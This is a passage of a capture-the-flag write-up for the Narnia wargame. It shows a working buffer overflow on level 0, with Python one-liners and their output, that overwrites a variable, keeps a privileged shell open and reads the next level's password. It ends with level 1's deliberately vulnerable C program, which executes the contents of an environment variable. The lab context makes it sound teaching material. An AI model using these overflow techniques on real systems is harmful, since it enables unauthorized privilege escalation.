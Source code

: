 Right, we can confirm that we are able to change the value of `val`. Let's tread a bit more carefully and try to see if we can do it more accurately

```sourceCode
narnia0@melinda:/narnia$ python -c "print 'C'*20 + 'BBBB'" | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCBBBB
val: 0x42424242
WAY OFF!!!!
```

So there is no space between `val` and `buf`, therefore 20 characters plus a further 4 is enough to change val. Let's write in the correct value, reversed of course because of the endian notation

```sourceCode
narnia0@melinda:/narnia$ python -c "print 'C'*20 + '\xef\xbe\xad\xde'" | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCﾭ
val: 0xdeadbeef
narnia0@melinda:/narnia$
```

We did it.... but wait, where's the shell? It's closed, that's where it is. We need to keep it open. The trick is to append the `cat` command to the input

```sourceCode
narnia0@melinda:/narnia$ (python -c "print 'C'*20 + '\xef\xbe\xad\xde'"; cat) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCﾭ
val: 0xdeadbeef
id
uid=14000(narnia0) gid=14000(narnia0) euid=14001(narnia1) groups=14001(narnia1),14000(narnia0)
whoami
narnia1
cat /etc/narnia_pass/narnia1
[password]
```

## Level 01

```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

